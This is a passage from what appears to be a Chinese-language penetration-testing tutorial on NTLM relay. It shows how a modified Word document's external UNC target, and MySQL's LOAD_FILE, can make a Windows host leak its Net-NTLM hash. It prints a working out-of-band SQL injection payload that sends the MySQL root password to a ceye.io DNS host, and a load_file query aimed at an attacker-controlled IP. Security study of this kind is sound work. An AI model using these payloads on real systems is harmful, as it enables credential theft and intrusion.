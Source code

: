 可以看到Target参数本来是本地的路径

![image-20191121182705648](img/NTLM_RELAY_1_ANQUANKE/image-20191121182705648.png)

修改为UNC路径，然后加上`TargetMode="External"`

![image-20191121183030427](img/NTLM_RELAY_1_ANQUANKE/image-20191121183030427.png)

当打开word的时候,我们就拿到net-ntlm  hash

![image-20191121183321169](img/NTLM_RELAY_1_ANQUANKE/image-20191121183321169.png)

## 0x07 MySQL

我们知道在MySQL注入的话，是可以通过带外通信把数据带出来。语法如下。

```mysql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
```

需要具备load_file权限，且没有secure_file_priv的限制(5.5.53默认是空，之后的话默认为NULL就不好利用了,不排除一些管理员会改)

仔细观察我们会发现LOAD_FILE是支持UNC路劲

我们构造

```sql
select load_file('\\\\172.16.100.1\\mysql');
```

拿到net-ntlm  hash

![image-20191120203418305](img/NTLM_RELAY_1_ANQUANKE/image-20191120203418305.png)
